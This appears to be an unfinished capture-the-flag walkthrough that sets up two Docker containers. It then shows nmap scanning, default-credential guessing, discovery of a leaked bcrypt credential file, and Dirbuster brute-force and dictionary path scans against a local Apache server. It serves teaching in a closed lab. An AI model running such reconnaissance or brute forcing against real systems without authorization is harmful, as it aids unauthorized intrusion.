










---

# /!\ IMPORTANT /!\

***This write up is incomplete.***

All of the steps and a majority of the explanations are there, however more work remains to be done both on the Docker containers and this writeup itself.
 	
Questions, comments, and all other inquiries can be directed to any of the following contacts:
- Email: raykhelson.ielon@gmail.com
- Direct Message me via Discord: `thesillygoose.`
- Send a message in the Cyber Lions Discord: https://discord.gg/csxvHzpbNy
- Issue/Pull request via Github: https://github.com/0x7070/CTF_writeup
 		  
*If at any point you are stuck in the CTF, please do not hesitate to reach out. I will be happy to help step you through the challenge.*

---

# Version Info
``` bash
# Kali OS [b] - Running from a VirtualBox VM hosted on Ubuntu version [a]

# ---

# [a]:
host:~$ cat /etc/os-release 
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2024.4"
VERSION="2024.4"
VERSION_CODENAME=kali-rolling
ID=kali
ID_LIKE=debian
HOME_URL="https://www.kali.org/"
SUPPORT_URL="https://forums.kali.org/"
BUG_REPORT_URL="https://bugs.kali.org/"
ANSI_COLOR="1;31"

# VirtualBox version
Version 7.1.4 r165100 (Qt6.4.2)

# ---

# [b]:
kali:~$ cat /etc/os-release
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2024.4"
VERSION="2024.4"
VERSION_CODENAME=kali-rolling
ID=kali
ID_LIKE=debian
HOME_URL="https://www.kali.org/"
SUPPORT_URL="https://forums.kali.org/"
BUG_REPORT_URL="https://bugs.kali.org/"
ANSI_COLOR="1;31"

# Docker version
$ docker --version
Docker version 26.1.5+dfsg1, build a72d7cd

# Firefox version
$ firefox --version
Mozilla Firefox 128.5.0esr

# Dirbuster version
$ dirbuster --help
DirBuster - 1.0-RC1

# ImageMagick version (display --version)
$ display --version
Version: ImageMagick 6.9.13-12 Q16 x86_64 18420 https://legacy.imagemagick.org

# Exiftool (exiftool -ver)
$ exiftool -ver
13.00

# hexdump
$ hexdump --version    
hexdump from util-linux 2.40.2

# binwalk
$ binwalk --help   
Binwalk v2.4.3

# hash-identifier
$ apt show hash-identifier
Version: 1.2+git20180314-0kali3

# hachcat version
$ hashcat --version
v6.2.6

# metasploit / searchsploit version (both are packaged into `exploitdb`)
$ apt show exploitdb
Version: 20241116-0kali1
```

---

# 1. Initialize and configure Docker containers

``` bash
# open a terminal
# ensure Docker is installed (a), or install docker (b)
# (a)
# docker --version
# (b)
# sudo apt install docker.io -y

# pull Docker images
sudo docker pull professorprofessional/cyberlions-vsftpd234:v2
sudo docker pull professorprofessional/cyberlions-apache2:v3
```

Should see a successful output for both:
``` bash
┌──(kali㉿kali)-[~]
└─$ sudo docker pull professorprofessional/cyberlions-vsftpd234:v2
v1.0: Pulling from professorprofessional/cyberlions-vsftpd234
d9802f032d67: Pull complete 
41b8fe7cdfd1: Pull complete 
80b72d25e429: Pull complete 
901bb8904628: Pull complete 
8040949a19bf: Pull complete 
45065d9d10bc: Pull complete 
f66eb90083b7: Pull complete 
e535bced3036: Pull complete 
29c7d911bc77: Pull complete 
c6c2452d5fe4: Pull complete 
c6382b3ba332: Pull complete 
Digest: sha256:50a819e7a69eacfb456c7055240acb20ecc2f10542024cc41addc65f88ac47c9
Status: Downloaded newer image for professorprofessional/cyberlions-vsftpd234:v2
docker.io/professorprofessional/cyberlions-vsftpd234:v2

┌──(kali㉿kali)-[~]
└─$ sudo docker pull professorprofessional/cyberlions-apache2:v3  
v1.0: Pulling from professorprofessional/cyberlions-apache2
d9802f032d67: Already exists 
48beede29b25: Pull complete 
8e19d85e48f1: Pull complete 
27c3fdf51c6e: Pull complete 
55c084f00bc3: Pull complete 
a4be2415c8ce: Pull complete 
ba5a913d3f4a: Pull complete 
8e1906eea38f: Pull complete 
62c0327efd8e: Pull complete 
Digest: sha256:0158274f91710dfae81f953d9319716c6277ed15ca79287eb7c512c674506ab2
Status: Downloaded newer image for professorprofessional/cyberlions-apache2:v3
docker.io/professorprofessional/cyberlions-apache2:v3
```

You'll see "already exists" as the containers are built using the same Ubuntu base image, which you'd already have downloaded with the first image

Verify installation
``` bash
┌──(kali㉿kali)-[~]
└─$ sudo docker images
REPOSITORY                                   TAG       IMAGE ID       CREATED      SIZE
professorprofessional/cyberlions-apache2     v1.0      d5d167c50eaa   5 days ago   260MB
professorprofessional/cyberlions-vsftpd234   v1.0      50178d3c26d7   5 days ago   385MB
```

``` bash
sudo docker rmi {iid}
sudo docker kill {cid}
sudo docker remove {cid}
```

> rmi : remove image (image_id)
> kill : kill an active container (container_id)
> remove : remove a container (container_id)

### 1b. Spin up Docker containers

Verify nothing is running on ports 20,21,80
``` bash
ss | grep -w -e '20' -e '21' -e '80'
```

If there are services active on these ports, terminate them, then re-verify
``` bash
sudo kill -9 {pid},{pid},...
```

Once no services are running on these ports, spin up the containers 
```
# spin up Docker containers with default configuration
┌──(kali㉿kali)-[~]
└─$ sudo docker run -d -p 80:80 professorprofessional/cyberlions-apache2:v3
┌──(kali㉿kali)-[~]
└─$ sudo docker run -d -p 20:20 -p 21:21 professorprofessional/cyberlions-vsftpd234:v2
```

> IMPORTANT: the order in which you run your Docker containers will dictate what services are running at which IP addresses. For this write up, it is assumed that your containers are ran in the same order as mine.

You'll see container IDs if they have been. This does not always mean a container has been successfully initialized, however -- though there may not have been any errors printed during executing, there may still be issues with configuration.

Verify the containers have successfully been initialized
``` bash
┌──(kali㉿kali)-[~]
└─$ sudo docker ps -a                                                                   
CONTAINER ID   IMAGE                                             COMMAND                  CREATED              STATUS              PORTS                                           NAMES
cf452852d471   professorprofessional/cyberlions-vsftpd234:v2   "/usr/local/sbin/vsf…"   About a minute ago   Up About a minute   0.0.0.0:20-21->20-21/tcp, :::20-21->20-21/tcp   competent_blackburn
332ee0e1fc2d   professorprofessional/cyberlions-apache2:v3     "apache2ctl -D FOREG…"   2 minutes ago        Up 2 minutes        0.0.0.0:80->80/tcp, :::80->80/tcp               pensive_chatterjee
```
We're looking for the "up ..." in the "STATUS" column. Anything else will give us functionality issues if unintentionally set to that. 

> It is important to practice as if we are within a real environment, so we will proceed as if we are unaware of any of the past commands being executed -- we will assume we are only aware of the host node we have been given.
> Additionally, Kali is running on a bridged network, so it will have its own. Similarly the Docker containers are running within a virtualized bridged network, so they are sharing the hosts (kali's) network resources, but are accessible internally as their individually unique nodes. 
> Here are a few possible network topologies for our initial environment:
> Here is my current network topology with respect to what we *would* know at this point:


**Ubuntu host, Kali bridged with host, unknown Docker services bridged with Kali**
Ubuntu host
|- Kali Attack
  |- Docker services

> You may have a similar network topology, but ultimately, the way you proceed will be determined by the next step.

---

# 2. Identify network topology

``` bash
┌──(kali㉿kali)-[~]
└─$ ip address show docker0
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:4c:37:57:bb brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:4cff:fe37:57bb/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
```

`ip addr show` will list all registered network interfaces --  we are only interested in `docker0`, which should be `UP`, and which is the node we will be probing first:

Verify connection through `ping` (-c is optional here)

``` bash

┌──(kali㉿kali)-[~]
└─$ ping -c 4 172.17.0.1
PING 172.17.0.1 (172.17.0.1) 56(84) bytes of data.
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.050 ms
64 bytes from 172.17.0.1: icmp_seq=2 ttl=64 time=0.041 ms
64 bytes from 172.17.0.1: icmp_seq=3 ttl=64 time=0.048 ms
64 bytes from 172.17.0.1: icmp_seq=4 ttl=64 time=0.034 ms

--- 172.17.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3077ms
rtt min/avg/max/mdev = 0.034/0.043/0.050/0.006 ms
```

Scan Docker service (172.17.0.1) and identify services through a surface level scan
```
┌──(kali㉿kali)-[~]
└─$ nmap 172.17.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 19:44 EST
Nmap scan report for 172.17.0.1
Host is up (0.0000090s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
32768/tcp filtered filenet-tms
32769/tcp filtered filenet-rpc
32770/tcp filtered sometimes-rpc3

Nmap done: 1 IP address (1 host up) scanned in 1.30 seconds
```
OR
```
┌──(kali㉿kali)-[~]
└─$ nmap 172.17.0.1                                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 02:31 EST
Nmap scan report for 172.17.0.1
Host is up (0.000010s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE
20/tcp filtered ftp-data
21/tcp filtered ftp
80/tcp filtered http

Nmap done: 1 IP address (1 host up) scanned in 1.29 seconds
```
Nmap identified 3 filtered ports on the network, which we will not probe further, since they are already being filtered.

From this point onward, we will refer to the Docker service (172.17.0.1) as the Docker Gateway.

### 2a. Scan the 172.17.0.255 subnet (0.0->0.255)

Instead, we can search for additional nodes besides the Docker service we just probed. This scan is relatively noisy, and is only being used as we are in a controlled environment.
```
┌──(kali㉿kali)-[~]
└─$ nmap -sn -T5 --min-rate 10000 172.17.0.1/24 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 19:55 EST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Nmap scan report for 172.17.0.3
Host is up (0.0000080s latency).
MAC Address: 02:42:AC:11:00:03 (Unknown)
Nmap scan report for 172.17.0.1
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 0.23 seconds
```
### 2b. Probe 172.17.0.2

Here, we learn of two additional nodes on the network -- (172.17.0.2) (172.17.0.3). Let's find out more about each of them. We'll begin with 172.17.0.2:
``` bash
┌──(kali㉿kali)-[~]
└─$ nmap 172.17.0.2                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 20:06 EST
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.16 seconds
```
We've discovered an open HTTP port on 80. Analyzing the scan results, we find the following information about the node 172.17.0.2:
Port 80 is open
|- It is serving HTTP

However, that alone doesn't give us much information. Lets see if we can discover anything else.

By performing the following scan, we are probing not only the host (172.17.0.2) itself, but also its open ports and the services it is hosting:
``` bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 80 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 20:27 EST
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```
Now, we have identified the version, as well as the title page -- the front facing page --, among other things. We'll save this information for later.

Let's continue identifying the network topology.
### 2c. Probe 172.17.0.3

``` bash
┌──(kali㉿kali)-[~]
└─$ nmap 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 21:02 EST
Nmap scan report for 172.17.0.3
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:AC:11:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```

> If you are paying close attention, you might have noticed we have stopped working with port `20`. 
> For this CTF, probing port `20` is not necessary, as it is only open situationally. 

Again, this doesn't tell us much. Let's proceed with the same noisy scan from earlier, substituting `-p 80` for `-p 21`:
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 21 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 21:03 EST
Nmap scan report for 172.17.0.3
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxr--    4 1001     1001         4096 Dec 04 15:46 beary
| drwxrwxr--    3 1002     1002         4096 Dec 04 15:46 franklin
| -rwxrwxr-x    1 0        0          134881 Dec 04 02:41 key.png
|_-rwxrwxr-x    1 0        0          689793 Dec 04 02:41 lock.png
MAC Address: 02:42:AC:11:00:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```
That's a lot of information! Ignoring the details of the output, we can assume the following network topology, excluding the topology preceding our Kali attack machine, as that is user-dependent.

```
┌─Kali Attack
\
(Virtual Bridge)
/
└─Docker Gateway└─ ─ 
   | - 172.17.0.1
   | - 80/tcp (filtered)
   | - 21/tcp (filtered)
   |
   ├── Docker Container A
   |     - 172.17.0.2
   |     - Apache 2.4.41
   |     - 80/tcp (open - HTTP)
   |
   ├── Docker Container B
   |     - 172.17.0.3
   |     - vsFTPd 2.3.4
   |     - 21/tcp (open - FTP)
```

Let's save this for later, and turn back to the HTTP server, as that is likely the simplest surface to investigate.

---

# 3. Assess the HTTP server

Navigating to http://172.17.0.2:80/ will verify that the front-facing page is indeed titled "Login Page"

> Note that the `:80` is not necessary in this case, as HTTP traffic defaults to port 80. If the web server were to be hosted on a different port -- we'll use 9999 in this example -- we would then connect to http://172.17.0.2:999/



We can try a few things here.

### 3a. Guess login credentials

First, we can try to guess the credentials. Again, this is easily detectable by any activity analysis, but as we're in a closed environment, we will go ahead.

```
admin
pass

admin
password

user 
pass

user
password
```

We don't have much knowledge of the system or the users that hold credentials, so this understandably leads us nowhere.

### 3b-a. View page source code

Second, we can view source code.

**On Firefox**

`RightClick > View Page Source`
Here, we are interested in the following bit of HTML:
``` html

```

This indicates the existence of both the `resources` directory and the `login_icon_alt.png` png within it. Nothing else seems out of the ordinary, so let's see what is accessible at the path we just discovered.


`http://172.17.0.2:80/resources`



Let's go further.


`http://172.17.0.2:80/resources/login_icon_alt.png`


Just a simple png. We could look at metadata and binary information, but at this point, there's no reason to pursue an image -- we can come back to it at a later point if we deem necessary.


`http://172.17.0.2:80/resources/bcred.txt`



Interesting! It looks like we have a pair of hashed credentials.

### 3b-b. Hash analysis

Let's analyze these hashes.

In the first column (delimited by the colon `:`), we can assume these are usernames. In the second column, thanks to the hash identifier `$2y$`, we have what looks to be password hashes.

By doing some research, we can positively identify these hashes as an iteration of the bcrypt hashing algorithm. More information can be found [here](https://en.wikipedia.org/wiki/Bcrypt). time to crack  Furthermore, given the complexity of a possible password, we can conclude that cracking these hashes is unrealistic, as seen in this [time-to-crack table](https://specopssoft.com/blog/hashing-algorithm-cracking-bcrypt-passwords/). Again, we can return to this later if need be. 

For now, we will proceed to the other node on this network.

### 3c-a. Brute force paths with `dirbuster`

Though viewing source code got us to the paths not initially visible to the user, it can become tedious and increasingly difficult with large code-bases. However, the source-code is openly available, therefore making any malicious intent difficult to detect.

Alternatively, as we are in a closed environment without any concerns to firewalls or threat detection, we can take a more aggressive approach: Dirbuster. *We will proceed as if we have just reached the login page and have not yet discovered any internal paths.*

For this approach, we'll opt for the GUI, as it is more user friendly, and provides us with some nice functionality.

#### Open Dirbuster
##### Terminal

``` bash
# Terminal
┌──(kali㉿kali)-[~]
└─$ dirbuster
```

##### Kali search menu





Either method will open the an identical Dirbuster GUI.

Set the following configuration:
```
- Target URL (eg http://example.com:80/)
> Enter "http://172.17.0.2:80/" (without quotes)

- Select scanning type:
> Check "Pure Brute Force"

|> Start
```



The result of this type of brute force will vary based on your connection, hardware, and available resources. 

Looking at the bottom left, we given a time-of-completion estimate. For this specific attack we have configured, it will take an unbelievably long amount of time -- we have not made any configurations that would result in a particularly 'efficient' brute force attack. Fortunately, however, the paths within the web server aren't obfuscated, and are found relatively quickly. Looking at either the `List View` or the `Tree View`, we can stop the attack once we have identified `bcred.txt` successfully.



Still, let's explore another potential configuration.  

The attack we previously performed -- a pure brute force attack -- generates combinations using iterations of characters. 

> For example: Let's lay out the following scenario.
> We have obtained access to a jailbroken iPhone which, dissimilar to it's intended functionality, does not lock itself when too many incorrect pin combinations have been entered. 
> Because of this, we are able to freely guess the pin combination as many times as we would like until we are granted access. We know the pin is 6 digits, allowing us to try each combination iteratively until we have guessed correctly. 
> In practice, this would look something like:
> 000000, 000001, 000010, 000100, 001000, 010000, 100000, etc...
> Sure, this will eventually find the correct combination, but it is terribly inefficient -- if the key combination is 999999, we will have to iterate through 1000000 combinations before we would have generated the correct pin.

Regarding Dirbuster, we are doing the same attack but with paths as keys, and larger, more complex combinations involving digits, symbols, and letters. Again, this is extremely inefficient. Instead, we can specify a **list of commonly used path names** to iterate through. By doing this, not only are we decreasing the amount of iterations that must be taken, but also the resources which the computer must allocate to Dirbuster. On the other hand, however, if the path name is one which is not listed within our **dictionary**, it is unlikely to be found unless we are calculating additional permutations.

This attack is known as a Dictionary attack, and will be helpful in minimizing the time required to locate paths within the web server. 

# 3c-b. Dictionary attack with `dirbuster`

We will need a wordlist to use. For this specific instance, I recommend a medium sized wordlist -- we want to avoid over-fitting our attack and utilizing an unnecessary amount of resources, while providing enough combinations for Dirbuster to iterate through so that we still have a good chance of finding what we are looking for. We can always change our wordlists later.

##### Making the wordlist accessible to Dirbuster

Commonly used wordlists are provided within Kali -- we will use those packaged with Dirbuster for this attack.

``` bash
┌──(kali㉿kali)-[~]
└─$ cp /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt .
```

Quit Dirbuster and launch a new instance. Then, set the following configurations:

```
- Target URL (eg http://example.com:80/)
> Enter "http://172.17.0.2:80/"

- Select scanning type:
> Select "List based brute force"

- File with list of dirs/files
> Navigate to the path which you copied `dictionary-list-2.3-medium.txt` to
```

As for "Number Of Threads", you can experiment with larger values as you carry out the attack. If you begin the attack and notice no issues, you may try to increase the thread count. At 10 threads (the same thread count we performed the brute force attack with), take notice to the monumental decrease in processing-time required to complete the attack. 

I have checked "Go Faster" and set mine to `500` for time-sake.



When ready, begin the attack with `|> Start`.

Once you feel satisfied with the results, you can navigate to `Results - List View:` or `Results - Tree View` to see what Dirbuster has found. 

Using this wordlist, we have uncovered some more information.



The response codes indicate what default permissions are designated to the corresponding path.

| response code | description                                                                    |
| ------------- | ------------------------------------------------------------------------------ |
| 200           | OK - we can successfully access this path                                      |
| 302           | Redirection - we are being redirected away from this path and cannot access it |
| 403           | Forbidden - we cannot access the contents of this path                         |

